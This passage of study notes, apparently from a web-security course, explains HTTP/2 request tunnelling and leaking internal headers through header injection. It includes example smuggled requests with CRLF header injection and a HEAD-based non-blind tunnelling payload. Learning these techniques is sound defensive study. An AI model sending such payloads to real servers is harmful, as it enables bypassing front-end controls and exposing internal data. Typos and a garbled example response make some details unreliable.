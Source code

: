 -  The front-end sees everything we've injected as part of a header, so adds any new headers after the trailing `comment=` string. On the other hand, the back-end sees the `\r\n\r\n` sequence and thinks this is the end of the headers. The `comment=` string, along with the internal headers, are treated as part of the body. The result is a `comment` parameter with the internal headers as its value.
```
POST /comment HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 200  
  
comment=X-Internal-Header: secretContent-Length: 3  
x=1
```

## Blind request tunneling
- Some front-end servers read in all the data they receive from the back-end. This means that if you successfully tunnel a request, they will potentially forward both responses to the client, with the response to the tunnelled request nested inside the body of the main response.
- Other front-end servers only read in the number of bytes specified in the `Content-Length` header of the response, so only the first response is forwarded to the client. This results in a blind request tunnelling vulnerability because you won't be able to see the response to your tunnelled request.

## Non-Blind request tunneling using HEAD
- we can trick the blind request tunneling using HEAD request, as HEAD Request only contain only headers + content-length: so front-end see the content-length header and our 2nd rsponse's headers also combine with 1st response, and we can exploit blind-request tunneling 
**request**
```
:method HEAD
:path /example
:authority Vuln-web.com
foo bar\r\n 
	\r\n
	GET /tunnelled HTTP/1.1
	Host: vulnweb.com
	X: x
```
**response**
```
:Status 200
Content-Type: text/html
Content-Length: 134
HTTP/1.1 200 OK
Content-type: text/html
Content-Lenth: 2445

<html>tunnerernsdfkhst l</html>etc
```
